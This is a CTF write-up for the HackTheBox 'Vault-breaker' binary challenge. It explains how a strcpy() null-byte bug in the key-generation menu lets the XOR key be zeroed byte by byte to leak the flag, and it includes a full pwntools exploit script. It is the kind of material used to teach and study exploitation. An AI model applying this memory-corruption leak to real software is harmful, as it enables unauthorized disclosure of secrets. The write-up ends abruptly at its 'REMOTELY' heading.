 # Vault-breaker
> Write-up author: jon-brandy
## DESCRIPTION:
Money maker, Big Boy Bonnie has a crew of his own to do his dirty jobs. In a tiny little planet a few lightyears away, a custom-made vault has been found by his crew. 
Something is hidden inside it, can you find out the way it works and bring it to Bonnie?
## HINT:
- NONE
## STEPS:
1. In this challenge we're given a 64 bit binary, dynamically linked, and not stripped.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/fee75c8f-8712-4253-86f6-e9d4223e992a)

> BINARY PROTECTIONS 

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/aa77f0fa-38d7-4e28-a6db-91959cbb4fba)


2. After decompiled the binary and analyzed the `secure_password()` function which is the second menu option.
3. I found no vuln and it just perform safe XOR operation for the flag strings.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/7d86234e-a150-4c78-9edc-335c90fea824)


4. But the bug is at the 1st menu option which is the `new_key_gen()` function.

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/d0e69019-3714-4578-ab4f-556a74383fd2)

5. It checks whether the user input has null byte, then it shall printed out the original char.
6. Well the vuln is at the strcpy(), if we're using strcpy() it does copy the nullbyte (at the end of the strings). For secure coding practice better using memcpy().
7. Anyway the exploit here, is we can leak the flag char one by one by set a position manually for the nullbyte.
8. As we know the program accepts 31 bytes and there's a memset which set 32 bytes of 0 at first.
9. So rather we leak it from the left, we can leak it more easily from the right using for loop.

> SCRIPT TEMP

```py
for i in range(0x1F, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))
```

10. After we leak all the character then we open the second menu to get the flag.

> FULL SCRIPT

```py
from pwn import *
import os 

os.system('clear')

def start(argv=[], *a, **kw):
    if args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

exe = './vault-breaker'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'DEBUG'

sh = start()

# exploit starts
# 0x1F == 31
for i in range(31, -1, -1):
    print('[INFO] Iter: ', i)
    sh.sendlineafter(b'>', b'1')
    sh.sendlineafter(b':', str(i))

sh.sendlineafter(b'>', b'2')

sh.interactive()
```

> TEST LOCALLY

![image](https://github.com/jon-brandy/hackthebox/assets/70703371/4df902d1-7c75-4581-a0d1-14b5872ec7c6)


11. Great we got it locally, but notice we failed to leak the `}`. Kinda confused why because our local flag length is 24.
12. Anyway let's send it remotely.

> REMOTELY


